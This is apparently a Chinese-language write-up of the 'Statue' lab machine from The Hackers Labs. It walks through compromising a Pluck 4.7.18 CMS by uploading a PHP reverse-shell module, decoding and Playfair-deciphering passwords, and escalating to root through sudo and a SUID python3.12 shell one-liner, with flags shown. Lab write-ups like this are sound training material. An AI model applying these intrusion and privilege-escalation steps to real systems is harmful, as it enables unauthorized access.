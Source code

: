 # Statue

2025.03.03 https://thehackerslabs.com/statue/

[video](https://www.bilibili.com/video/BV1UE9YY7Exh/?spm_id_from=333.1387.upload.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

访问 80 可以 Index 目录，但是空目录。将 statue.thl 添加到 hosts。

web 目录扫描，发现登陆页面 http://statue.thl/login.php 版本 pluck 4.7.18 ， 有 RCE 漏洞，但是需要密码。

发现 http://statue.thl/README.md 显示的是 base64，经过 17 次 base 解码，得到 fideicomiso 就是上面 cms 的密码，http://statue.thl/admin.php?action=installmodule 在这个页面上上传 zip 包，里面是 php shell 反弹文件（shell 的文件名和 zip 包的文件名保持一致），上传成功后，就在 kali 上得到了反弹的 shell。

访问下面这个 url 也可以触发反弹:

```
http://statue.thl/data/modules/8888/8888.php
```

发现 /var/www/Charles-Wheatstone/pass.txt:

```
bash-5.2$ cat /var/www/Charles-Wheatstone/pass.txt
Pass KIBPKSAFMTOIQL

Key Vm0xd1MyUXhVWGhYV0d4VFlUSm9WbGx0ZUV0V01XeHpXa2M1YWxadFVuaFZNVkpUVlVaYVZrNVlW
bFpTYkVZelZUTmtkbEJSYnowSwo=
```

将 Key 经过 7 次 base64 解码得到 guardar ，同时发现 Charles-Wheatstone 发明了 Playfair cipher 加密方法，经过 Playfair cipher 解密后 http://www.online.crypto-it.net/eng/playfair.html 得到 INCOMPRENSIBLE 要将密码转换成小写 incomprensible 成功切换到 charles。

在 home 目录中查看一下这个程序的可见字符串，juan 是用户名，进行逆向，发现 generador 可能是密码：

```
s = "juan";
var_28h = "generador";
encrypt_decrypt("juan", (int64_t)&var_30h);
encrypt_decrypt(var_28h, (int64_t)&var_38h);
```

使用 切换到 juan，拿到了 user flag：

```
juan@TheHackersLabs-Statue:~$ cat user.txt
42d6174fddbf1ff96b645cd7a8f6d270
```

sudo -l 显示 (ALL) NOPASSWD: ALL 可以直接提权到 root。

这里也可以直接提权，发现 suid 程序 /usr/bin/python3.12 直接提权到 root：

```
bash-5.2$ /usr/bin/python3.12 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# cd /home
# cd juan
# ls
binario  user.txt
# cat user.txt
42d6174fddbf1ff96b645cd7a8f6d270

# cd /root
# ls
root.txt
# cat root.txt
0284c6ac58cb47bb52e427007beee58e0132bf71
```
